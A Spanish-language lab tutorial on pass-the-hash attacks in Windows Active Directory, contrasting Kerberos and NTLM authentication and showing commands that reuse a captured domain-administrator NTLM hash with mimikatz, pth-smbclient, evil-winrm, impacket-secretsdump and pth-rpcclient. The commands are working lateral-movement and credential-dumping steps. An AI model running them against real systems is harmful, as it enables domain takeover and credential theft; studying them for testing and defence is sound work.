









Dentro de domino cuando se consumen servicios, la autenticación del usuario depende del nombre que utilicemos al dirigir el directorio del usuario, por ejemplo:
Desde del DC queremos consumir la carpeta C$ de WS01 en la que si usamos ese nombre se utilizará el protocolo Kerberos para realizar la autenticación, pero si nos referimos a la máquina por su dirección IP se hará uso del protocolo NTLM:

En WS01 comprobamos los logonsession:

Vemos que cada una utiliza un protocolo de autenticación de red diferente.
NTLM es más inseguro pero convive dentro de un dominio junto con kerberos y si no se especifica el uso de este, por defecto se utilizará NTLM.
Por NTLM el consumo del servicio funciona diferente que en kerberos.
Passthehass consiste en modificar el hash que manda el sistema windows de forma automática al intentar acceder a un recurso mediante una sessionlog ya iniciada para poder hacer creer al la maquina donde se encuentra el servicio que quieres consumir que eres un usuario diferente al que realmente le hace la petición.
Ahora suponemos lo siguiente:

Hemos conseguido el hash NTLM del administrador del dominio pero no podemos crackearlo.
Vamos a utilizarlo de la siguiente forma.
sekurlsa::pth /user:administrador /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
Mimikatz crea una nueva logonsession dentro de WS01 en la que suplanta el hash que se genera de empleado1 con el hash que le hemos proporcionado, copia el token de acceso al proceso y se lo añade a la logonsession y lo asigna a una cmd.
Esta cmd está asociada a una logon session con el hash del administrador.


Igual a antes vamos a tener el hash del admin sin poder crackearlo.
El protocolo NTLM es de autenticación por lo que en función del servicio que se vaya a consumir, en este caso SMB por lo que tenemos es una implementación NTLM en SMB.
Usaremos la herramienta passthehass en kali:
pth-smbclient //192.168.20.5/c$ -U administrador --pw-nt-hash a87f3a337d73085c45f9416be5787d86 -W corp.local

Esto mismo podemos usarlo para otros procesos como winrm para la administración remota:
Por ejemplo utilizando evilwinrm:
Con credenciales:
evil-winrm -i 192.168.20.131 -u Administrador -p Passw0rd
Sin credenciales pero hash NTML del administrador:
evil-winrm -i 192.168.20.131 -u Administrador -H a87f3a337d73085c45f9416be5787d86

Para impacket y otras herramientas funciona igual:
impacket-secretsdump administrador@192.168.20.131 -hashes :a87f3a337d73085c45f9416be5787d86

Con rpcclient:
pth-rpcclient -U corp/administrador%00000000000000000000000000000000:a87f3a337d73085c45f9416be5787d86 //192.168.20.131
